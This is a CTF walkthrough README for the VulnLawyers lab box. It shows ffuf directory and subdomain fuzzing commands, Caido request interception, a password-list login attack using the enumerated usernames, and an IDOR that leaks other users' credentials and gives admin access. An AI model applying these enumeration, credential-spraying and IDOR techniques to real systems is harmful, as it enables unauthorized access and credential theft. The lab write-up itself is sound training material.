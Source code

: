 VulnLawyers - CTF Walkthrough

📁 Repository Overview

This repository contains a full walkthrough of the VulnLawyers CTF, solved using only:

ffuf (directory and subdomain fuzzing)

Caido (web proxy analysis)

The methodology follows a clean, repeatable pentest format with all flags captured and documented.

All screenshots and proof-of-work are stored in the /screenshots directory.

🔧 Tools Used

ffuf – Fast web fuzzer

Caido – Web proxy for intercepting and manipulating requests

Linux shell (Parrot OS)

🧠 Objective

Gain access to the VulnLawyers web server, enumerate for vulnerabilities, escalate privileges, and capture all flags.

🛰️ 1. Recon

⚠️ Note: No ports were open for full nmap scan; proceeded directly to web-based fuzzing using known open access.

📂 2. Directory Fuzzing with ffuf (Main Domain)

ffuf -w subdomains.txt -u https://[target-ip]/FUZZ

  Key results:

    /css
    /images
    /login

🌐 3. Subdomain Discovery with ffuf (Main Domain)

ffuf -w subdomains.txt -u https://[target-ip]/ -H "Host: FUZZ.[target-ip]"

  Key result:

    data

📂 4. Directory Fuzzing with ffuf (Subdomain: data)

ffuf -w subdomains.txt -u https://data.[target-ip]/FUZZ

  Key result:

    /users

🔐 5. Intercept & Analyze with Caido

Interecepted GET /users

  Key finding:

{
    "users": [{
        "name": "Yusef Mcclain",
        "email": "________________"
    }, {
        "name": "Shayne Cairns",
        "email": "_________________________"
    }, {
        "name": "Eisa Evans",
        "email": "________________________"
    }, {
        "name": "Jaskaran Lowe",
        "email": "_______________________"
    }, {
        "name": "Marsha Blankenship",
        "email": "_________________________"
    }],
    "flag": "[________________________________]"
}

Intercepted GET /login 

  Key finding:

    /lawyers-only

Intercepted POST /lawyers-only (login attempt)

  Key findings:

    email=___&password=___

🛠️ 6. Login Access with Caido

Automated Matrix Payloads with Caido

  Used usernames found in /users domain and passwords.txt file provided by HackingHub

Gained credentials and access to /lawyers-only-profile

🔐 7. Intercept & Analyze with Caido

Intercepted GET /lawyers-only-profile-details/4 (attempted change of credentials)

  Key findings: 

Insecure Direct Object Reference (IDOR)

{
    "id": 4,
    "name": "___________",
    "email": "_____________________",
    "password": "_____________"
}

🧍 8. Privilege Escalation 

Replayed request with Caido

GET /lawyers-only-profile-details/2

  Key findings:

User that happens to be the case manager

{
    "id": 2,
    "name": "Shayne Cairns",
    "email": "_______________",
    "password": "______________",
    "flag": "[____________________]"
}

Gained access as Shayne Cairns (Case Manger - Admin)

🏁 7. Flags Captured

Flag # 1

  Path: https://[target-ip]/users

Flag # 2

  Caido Intercept: GET /login

Flag # 3

  Caido Intercept: GET /users

Flag # 4

  Staff Portal: https://[target-ip]/lawyers-only

Flag # 5

  Caido Request Replay: GET /lawyers-only-profile-details/2

Flag # 6

  Staff Portal as Shayne Cairns and deleted current case.

📌 Lessons Learned

Efficient use of just 2 tools (ffuf, caido) is enough to fully compromise a box

Importance of analyzing requests carefully in Caido

Logic flaws and poorly implemented login mechanisms are often more exploitable than buffer overflows

